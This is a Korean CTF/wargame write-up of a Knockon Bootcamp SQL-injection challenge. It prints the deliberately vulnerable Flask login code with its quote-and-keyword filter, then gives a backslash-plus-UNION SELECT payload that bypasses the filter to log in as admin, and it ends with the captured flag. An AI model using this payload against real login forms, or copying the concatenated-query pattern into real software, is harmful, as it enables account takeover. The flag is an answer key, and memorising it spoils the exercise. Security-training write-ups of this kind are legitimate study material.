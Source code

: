 ```yaml
---
title: "[Writeup] Knockon Bootcamp - 3.2 SQLi_WAF_2"
categories:
  - Web Hacking
tags:
  - Writeup
  - Knockon Bootcamp
  - SQL Injection
  - Filter Bypass
last_modified_at: 2024-08-28T23:00:00-05:00
published: true
---
```


|

## 문제

<http://war.knock-on.org:10031/>

![3.2 SQLi WAF 2 1](/assets/images/writeup/web-hacking/knock-on/3-2_SQLi_WAF_2_1.png)

![3.2 SQLi WAF 2 2](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_2.png)

![3.2 SQLi WAF 2 3](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_3.png)

|

|

|

### 목표

---

필터링 로직을 우회하여 admin 계정으로 로그인하기

|

### 공격 기법

---

SQL Injection

- Filter Bypass

|

|

|

## 문제 코드

```python
from flask import Flask, request, render_template, redirect, url_for
from flask_sqlalchemy import SQLAlchemy
from sqlalchemy import text
import os
import string

app = Flask(__name__)

MYSQL_DATABASE = os.getenv("MYSQL_DATABASE")
MYSQL_USER = os.getenv("MYSQL_USER")
MYSQL_PASSWORD = os.getenv("MYSQL_PASSWORD")
LOGIN_FLAG = os.getenv("LOGIN_FLAG")
MYSQL_HOST = "db"

app.config["SQLALCHEMY_DATABASE_URI"] = (
    f"mysql+pymysql://{MYSQL_USER}:{MYSQL_PASSWORD}@{MYSQL_HOST}/{MYSQL_DATABASE}"
)
app.config["SQLALCHEMY_TRACK_MODIFICATIONS"] = False
db = SQLAlchemy(app)


class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password = db.Column(db.String(80), nullable=False)


@app.route("/")
def home():
    return render_template("index.html")


@app.route("/login", methods=["GET", "POST"])
def login():
    error = None
    query = None
    if request.method == "POST":
        filtering_list = ['or', 'and', '\'', '"']
        username = request.form["username"].lower()
        password = request.form["password"].lower()

        for filter in filtering_list :
            if (filter in username) or (filter in password):
                return render_template("login.html", error='no Hack!')

        query = text(f"SELECT * FROM user WHERE username = '{username}' AND password = '{password}'")
        
        with db.engine.connect() as connection:
            result = connection.execute(query)
            user = result.fetchone()
        if user and user[1] == "admin":
            return redirect(url_for("success", username=user[1], flag=LOGIN_FLAG))
        elif user:
            return redirect(url_for("success", username=user[1]))
        else:
            error = "Invalid Credentials"
        return render_template("login.html", error=error, query=str(query))
    else :
        return render_template("login.html")


@app.route("/success")
def success():
    username = request.args.get("username", "Unknown")
    flag = request.args.get("flag", "So.. what?")
    return render_template("success.html", username=username, flag=flag)


if __name__ == "__main__":
    db.create_all()
    app.run(debug=True, host="0.0.0.0", port=8080)
```

|

|

|

## 코드 분석

```python
filtering_list = ['or', 'and', '\'', '"']
username = request.form["username"].lower()
password = request.form["password"].lower()
```

or, and에 이어 `‘(따옴표)`가 금지 당함


|

|

|

## 문제 풀이

```sql
SELECT * FROM user WHERE username = '{username}' AND password = '{password}'
```

```sql
admin' -- 1
```

사용 불가

`‘`를 사용할 수 없기 때문에 기존의 공격 방식을 사용할 수 없음

|

```sql
SELECT * FROM user WHERE username = '\' AND password = '{password}'
```

`username`에 `\(백 슬래시)`를 사용하면 바로 뒤에 있는 `‘`가 문자로 인식됨

그래서 그 다음 `‘`까지, `'\' AND password ='` 가 문자열로 인식되고, 그 뒷부분인 `password` 부터 쿼리로 인식함

`password`부분에  **union**을 이용해 **admin**으로 로그인하는 새 쿼리를 작성해주면 됨 

|

```sql
union select 1,2,3 -- 1
```

![3.2 SQLi WAF 2 2](/assets/images/writeup/web-hacking/knock-on/3-2_SQLi_WAF_2_2.png)

`user 테이블`의 열 수가 3이므로 기본 형태는 이렇게 됨

|

```sql
union select 1,(select username from user limit 1,1),3 -- 1
```

`username`의 첫 번째 행은 guest이므로 두 번째 행인 **admin**으로 설정

|

|

|

## Exploit

```
username: \

password: union select 1, (select username from user limit 1,1), 3 -- 1
```

|

|

### FLAG

---

```
K0{quote_is_important}
```

|

---